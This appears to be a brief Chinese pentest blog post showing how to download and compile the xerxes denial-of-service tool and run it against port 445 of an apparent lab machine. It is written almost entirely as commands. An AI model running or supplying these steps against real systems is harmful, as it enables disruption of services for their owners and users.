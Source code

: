 ```yaml
---
layout:     post
title:      用xerxes发起dos攻击
author:     wooy0ung
tags: 		dos
category:  	pentest
---
```



### 0x00 用xerxes

下载xerxes

```
$ sudo svn checkout https://github.com/wooy0ung/pentest/trunk/xerxes
```

编译

```
$ cd xerxes
$ gcc xerxes.c -o xerxes
```
<!-- more -->

扫描目标端口

![](/assets/img/pentest/2017-06-22-xerxes/0x00.png)

攻击445端口

```
./xerxes 10.211.55.5 445
```

![](/assets/img/pentest/2017-06-22-xerxes/0x01.png)

目标机器建立了大量tcp连接，消耗资源

![](/assets/img/pentest/2017-06-22-xerxes/0x02.png)
